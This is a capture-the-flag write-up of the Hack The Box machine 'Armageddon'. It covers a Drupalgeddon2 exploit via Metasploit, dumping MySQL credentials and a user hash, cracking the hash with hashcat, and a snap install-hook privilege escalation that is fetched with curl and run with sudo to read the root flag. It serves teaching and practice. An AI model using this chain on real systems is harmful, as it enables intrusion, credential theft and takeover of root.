# Armageddon
This box begins with an easy entry-point; through enumeration we get access to a database; and the final exploitation is a pretty fun learning experience.

**Tools: nmap, metasploit, hashcat, snap, fpm.**

We begin with the nmap scan:
> nmap -Pn -sV -sC --min-rate=10000 -p- 10.10.10.233



Ports 22 and 80 are open, and we can see that the webpage is using Drupal 7 (content manager).



Checking the webpage, there's nothing much to do, and at the source we can confirm that it is indeed using Drupal 7.



A quick search for exploits reveals us some vulnerabilities.



We'll be using the drupalgeddon2 exploit from the msfconsole (Metasploit).



We get a meterpreter shell.  
At this point we have to start a manual enumeration. At the /var/www/html/sites/default we can see a few files, and after reading through the settings.php we are able to find an username and password for the mysql database.





> drupaluser  
> CQHEy@9M\*m23gBVj  

Now, to interact with mysql we have to spawn a shell from the meterpreter, then proceed to enumerate the database.
> shell  
> mysql -u drupaluser -p'CQHEy@9M\*m23gBVj' -e 'show databases';  
> mysql -u drupaluser -p'CQHEy@9M\*m23gBVj' -D drupal -e 'show tables';



Now, from the users table, we are able to get a username and its hash. 
> mysql -u drupaluser -p'CQHEy@9M\*m23gBVj' -D drupal -e 'select  from users';



> brucetherealadmin  
> $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt  

Through a quick search on the hashcat's help, we can see that Drupal 7 has an specific hash for the passwords. And so, we're able to get the user's password: 
> hashcat --help | grep -i "drupal"  
> hashcat -m 7900 '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' /usr/share/wordlists/rockyou.txt --show  



We get the password 'booboo'.  
Now we can try to login through SSH and grab the user flag.
> ssh brucetherealadmin@10.10.10.233



We can see that the user can run 'snap_install' with sudo permissions. Snap is a package manager, similar to apt and yum.
> sudo -l



At [GTFObins](https://gtfobins.github.io/gtfobins/snap/) we can find a way to use this elevated privileges to gather information. When trying to run the commands, though, it will inform us that 'fpm' is not installed. There's a [Github page](https://github.com/jordansissel/fpm) for fpm, where we can also find the [installation guide](https://fpm.readthedocs.io/en/latest/installing.html).   
First make sure that you have ruby and its dependencies:
> apt-get install ruby ruby-dev rubygems build-essential

Then through gem install fpm: 
> gem install --no-document fpm 

And if you need, you can also install snap (I already had it installed, so I'm not sure if it is needed): 
> apt install snapd

Now you can copy the commands from the GTFObins and paste in in the terminal (if it's not copying correctly, first paste it on a text file, then copy again the commands from the file).   
The detail here is that, the default command from GTFObins is 'id', which will just show the user information - I've changed mine to read the root.txt file right away, giving us the root flag. 
> COMMAND="cat /root/root.txt"  
> cd $(mktemp -d)  
> mkdir -p meta/hooks  
> printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install  
> chmod +x meta/hooks/install  
> fpm -n xxxx -s dir -t snap -a all meta

This will create our snap package. Now simply run a python3 http server to send the file to the box.



And then from the box download the package (I did it from the /tmp directory to avoid 'spoiling' the other players). 
> curl \<yourIP>/xxxx_1.0_all.snap > my.snap

And then run the package installer using the command provided at the GTFObins page: 
> sudo snap install my.snap --dangerous --devmode

If everything works correctly - it might take a few seconds - you'll get your root flag at the end of the text output, just like shown below.



**That's it for this box!**  
Thanks for reading and keep hacking!
